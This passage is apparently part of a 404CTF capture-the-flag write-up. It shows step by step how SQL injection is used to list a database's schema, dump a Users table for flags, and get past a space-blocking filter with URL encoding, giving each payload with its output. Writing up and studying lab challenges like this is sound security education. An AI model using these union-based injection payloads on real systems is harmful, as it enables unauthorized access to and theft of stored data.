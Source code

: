 We can use it to dump the MySQL databases:
```
1' or 1=1 union select 1,GROUP_CONCAT(SCHEMA_NAME) from INFORMATION_SCHEMA.SCHEMATA-- -
```
```
1	information_schema,UnionVendeurs
```

Next, dump the table names for database `UnionVendeurs`:
```
1' or 1=1 union select 1,GROUP_CONCAT(TABLE_NAME) from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA='UnionVendeurs'-- -
```
```
1	Users,cooperatives
```

Next, the column names for table `Users`:
```
1' or 1=1 union select 1,GROUP_CONCAT(COLUMN_NAME) from INFORMATION_SCHEMA.COLUMNS where TABLE_SCHEMA='UnionVendeurs' and TABLE_NAME='Users'-- -
```
```
1	id,nom,prenom
```

Finally dump the columns of table `Users`:
```
1' or 1=1 union select 1,GROUP_CONCAT(id,nom,prenom) from UnionVendeurs.Users-- -
```
```
1	1AssinMarc,2OutanLaurent,3GatorAli,456ReptileEric,472CuléRoland,7456404CTF{Vereux}404CTF{UnGorfou},7865AbbéOscar,16579CondaAnna
```

We have our next flags:
- 404CTF{Vereux}
- 404CTF{UnGorfou}

## 3rd form - Rencontrez des vendeurs et parler avec eux sans FILTRES
Sending a quote returns the same statement as in the previous steps, so start again with an `OR` statement closed by a query like before:
```
1' or 1=1-- -
```
Apparently, spaces are not allowed, although URL encoded by our browser:
```
Requête invalide : ne pas mettre d'espace
```

Encode the spaces in hexadecimal; Also encode the quote in hexadecimal like so::
```
1%27%20or%201=1--%20-
```

Bingo!
```
Code                Date                Heure
OpérationEpervier   2021-11-02          19h
OpérationMouette    2021-09-14          19h
OpérationFaucon     2022-01-01          20h
OpérationGorfou     404CTF{2022-07-14}  404CTF{01hDuMatin}
```
